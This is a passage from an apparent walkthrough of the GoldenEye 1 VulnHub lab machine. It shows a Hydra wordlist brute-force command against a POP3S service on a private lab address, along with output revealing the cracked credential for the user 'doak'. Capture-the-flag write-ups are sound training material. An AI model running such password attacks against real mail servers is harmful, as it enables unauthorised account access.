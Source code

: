 The message from Dr. Doak is as follows.

![34de8584.png](/assets/images/posts/goldeneye-1-walkthrough/34de8584.png)

Dr. Doak is offering information. His email username is `doak`. Time to go back to crack his POP3 mail box.

```
# Hydra v8.6 run at 2018-09-13 18:51:42 on 192.168.30.129 pop3 (hydra -l doak -P /usr/share/wordlists/fasttrack.txt -e nsr -o hydra.txt -t 50 -s 55006 pop3s://192.168.30.129)
[55006][pop3] host: 192.168.30.129   login: doak   password: goat

```

![890593b2.png](/assets/images/posts/goldeneye-1-walkthrough/890593b2.png)


[1]: https://www.vulnhub.com/entry/goldeneye-1,240/
[2]: https://www.reddit.com/user/_creosote
[3]: https://www.vulnhub.com/